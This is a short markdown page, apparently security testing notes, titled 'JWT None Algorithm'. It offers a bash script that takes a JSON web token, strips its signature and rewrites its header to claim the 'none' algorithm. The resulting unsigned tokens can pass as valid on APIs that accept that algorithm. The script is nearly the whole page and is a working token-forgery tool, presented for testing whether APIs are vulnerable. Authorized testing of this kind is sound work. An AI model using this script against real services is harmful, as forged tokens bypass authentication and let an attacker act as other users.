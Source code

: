 ```yaml
---
title: JWT None Algorithm
---
```


Below is a script that will take in a JSON web token, remove the signature, and change the header so that it is "signed" with the `none` algorithm. This can be used to create JWTs for testing if APIs are vulnerable to none algorithm attacks.


```bash
#!/usr/bin/env bash
set -euo pipefail

echoerr() { echo "$@" 1>&2; }

if [[ $# -ne 1 ]]; then
    echoerr "Expected a single argument: JWT"
    exit 1
fi

token="$1"
original_header="$(cut -d '.' -f 1 <<< "$token")"
original_payload="$(cut -d '.' -f 2 <<< "$token")"
original_header_decoded="$(base64 -d <<< "$original_header")"

new_header_decoded='{"alg":"none","typ":"JWT"}'
new_header="$(base64 <<< "$new_header_decoded" | sed 's/=*$//g')"

# Only send the token to stdout so that it can be captured in a variable
echoerr "Original Header:"
echoerr "   $original_header"
echoerr "   $original_header_decoded"
echoerr "New None Header:"
echoerr "   $new_header"
echoerr "   $new_header_decoded"
echoerr
echo "$new_header.$original_payload."
```
